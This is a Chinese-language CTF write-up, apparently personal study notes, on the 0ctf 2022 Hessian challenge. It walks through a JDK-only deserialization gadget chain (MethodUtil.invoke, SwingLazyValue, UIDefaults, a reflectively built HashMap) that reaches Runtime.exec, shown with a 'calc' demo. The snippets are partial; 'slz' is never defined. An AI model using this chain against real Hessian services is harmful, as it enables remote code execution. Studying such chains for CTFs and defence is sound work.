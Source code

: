 # Hessian与JDK

其实有很多题都是与hessian相关，只是突然想做个记录（并且这个只用到了jdk自身的类），并且这也是我第一次接触的链子。（是时候好好再回去学学codeql、tabby等....）

题目：https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2022/hessian-onlyJdk

就简单说一下自己的学习过程了。

将整条链子分成了3部分：

`第一部分：`

这里反射的调用还挺有意思，连着调用了2次

```java
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);
        invokeMethod.invoke(null,new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});
```

`第二部分：`

继续利用到了反射

```java
        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});
        swingLazyValue.createValue(new UIDefaults());
```

`第三部分:`

利用hashtable去触发get后又触发createValue

```java
        UIDefaults uiDefaults1 = new UIDefaults();
        uiDefaults1.put("_", slz);
        UIDefaults uiDefaults2 = new UIDefaults();
        uiDefaults2.put("_", slz);

        HashMap<Object, Object> s = new HashMap<>();
        Field f = s.getClass().getDeclaredField("size");
        f.setAccessible(true);
        f.set(s, 2);
        Class<?> nodeC = Class.forName("java.util.HashMap$Node");

        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, uiDefaults1, null, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, uiDefaults2, null, null));
        Field tf = s.getClass().getDeclaredField("table");
        tf.setAccessible(true);
        tf.set(s, tbl);
```

